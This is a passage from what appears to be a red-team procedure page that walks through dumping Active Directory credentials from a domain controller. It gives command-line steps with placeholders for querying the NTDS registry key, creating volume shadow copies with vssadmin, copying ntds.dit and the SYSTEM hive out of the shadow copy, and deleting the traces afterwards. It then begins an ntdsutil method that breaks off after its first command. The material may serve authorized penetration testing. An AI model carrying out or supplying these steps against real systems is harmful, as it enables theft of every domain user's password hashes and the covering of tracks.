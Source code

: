  ```
 cmd> reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters
 ```

   - Note: If NTDS is on a different drive than the OS, you'll need to make a snapshot for each drive

List shadows currently on the DC:

```
cmd> vssadmin list shadows
```

Create a shadow copy for the target drive(s):

```
cmd> vssadmin create shadow /for={{ drive_letter }}:
```

Copy SYSTEM hive from the shadow copy:

```
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{{ shadow_copy_number }}\Windows\System32\config\SYSTEM {{ output_path }}\SYSTEM
```

Copy NTDS from the shadow copy:

```
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{{ shadow_copy_number }}\NTDS\ntds.dit {{ output_path }}\NTDS.dit
```

   - Note: the path to NTDS in the shadow copy may be slightly different

### Cleanup

Delete the shadow copy(s) you created along with the copied NTDS.dit & SYSTEM files:

```
cmd> vssadmin delete shadows /shadow={{ volume_id }}
cmd> del {{ output_path }}\NTDS.dit
cmd> del {{ output_path }}\SYSTEM
```

## Extract NTDS.dit Credentials - via ntdsutil.exe

Dump domain hashes for all domain users on the domain controller via ntdsutil.exe, which uses Volume Shadow Services (VSS)

### Prerequisites

- Elevated command execution on a DC
- Sufficient free disk space on the DC (verify size of ntds.dit file against free disk space)

### Guidance

Note the existing snapshots before dumping NTDS.dit:

```
cmd> ntdsutil.exe snapshot "list all" quit quit
```

